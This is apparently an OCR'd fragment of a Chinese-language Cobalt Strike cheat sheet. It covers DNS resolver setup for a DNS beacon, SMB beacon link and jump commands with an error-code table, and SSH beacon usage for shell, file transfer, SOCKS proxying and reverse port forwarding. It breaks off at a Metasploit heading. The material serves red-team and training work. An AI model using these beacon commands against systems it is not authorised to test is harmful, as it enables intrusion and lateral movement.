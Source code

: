 ```powershell
systemctl disable systemd-resolved
systemctl stop systemd-resolved
rm /etc/resolv.conf
echo "nameserver 8.8.8.8" >  /etc/resolv.conf
echo "nameserver 8.8.4.4" >>  /etc/resolv.conf
```

配置：

1. **主机**：campaigns.domain.com
2. **信标**：polling.campaigns.domain.com
3. 与信标交互，并设置`sleep 0`

### SMB信标   

```powershell
link [主机] [管道名称]
connect [主机] [端口]
unlink [主机] [PID]
jump [执行] [主机] [管道]
```

SMB信标使用命名管道。在运行它时可能会遇到以下错误代码。

| 错误代码 | 含义          | 描述                                               |
| -------- | ------------- | -------------------------------------------------- |
| 2        | 文件未找到    | 没有信标供您链接                                   |
| 5        | 访问被拒绝    | 无效凭据或没有权限                                 |
| 53       | 错误的Netpath | 与目标系统没有信任关系。那里可能有也可能没有信标。 |

### SSH信标

```powershell
# 部署信标
beacon> help ssh
用法：ssh [目标:端口] [用户名] [密码]
生成SSH客户端并尝试登录到指定的目标

beacon> help ssh-key
用法：ssh [目标:端口] [用户名] [/path/to/key.pem]
生成SSH客户端并尝试使用指定的私钥文件登录到目标

# 信标的命令
上传                    上传文件
下载                  下载文件
socks                     启动SOCKS4a服务器以转发流量
sudo                      通过sudo运行命令
rportfwd                  设置反向端口转发
shell                     通过shell执行命令
```

### Metasploit兼容性
